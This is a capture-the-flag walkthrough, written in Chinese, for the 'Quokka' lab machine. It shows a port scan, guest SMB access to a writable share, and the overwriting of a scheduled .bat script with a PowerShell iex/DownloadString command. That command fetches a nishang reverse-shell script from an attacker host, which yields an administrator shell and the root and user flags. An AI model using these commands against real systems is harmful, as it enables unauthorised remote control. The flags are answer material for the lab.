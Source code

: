 # Quokka

2025.03.16 https://thehackerslabs.com/quokka/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

先枚举下 smb 共享：

```
smbmap -u guest -H 192.168.5.40
```

发现 Compartido 并有读写权限，登陆查看：

```
smbclient -N //192.168.5.40/Compartido -U guest
prompt
recurse on
```

发现了一个 bat 维护脚本 \Proyectos\Quokka\Código\mantenimiento.bat ：

```bat
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo más aquí...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit
```

注释中说这个脚本每 1 分钟执行一次，对这个共享目录 guest 用户有修改权限，看看能否得到反弹的 shell:

```bat
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.5.3/shell/5.3/8888.ps1')"
```

这里下载 kali 上 web 服务中的 ps 反弹 shell 脚本 这里使用 nishang 中的 Invoke-PowerShellTcp.ps1。

先在 kali 上创建监听 `rlwrap -cAr nc -lvnp 8888` ，覆盖共享中的文件，等待 1 分钟，得到了反弹的 shell。

反弹的 shell 是 administrator：

```
PS C:\users> whoami
win-vru3gg3dplj\administrador
```

直接拿到 root flag：

```
PS C:\users\administrador\Desktop> gc admin.txt
j9eCpd89VGOscar4nQp8e842mUOb8U
```

寻找另外的 flag：

```
PS C:\users> gci -r c:\users\ *.txt -ea 0
```

```
PS C:\users> gc C:\users\0mar\Desktop\user.txt
9OWiub9aDwcULNxs4w80W63Jl
```

最后在看一下这个每分钟执行的计划任务：

```
schtasks /query  /fo list /v /tn Quokka

Compartido
```
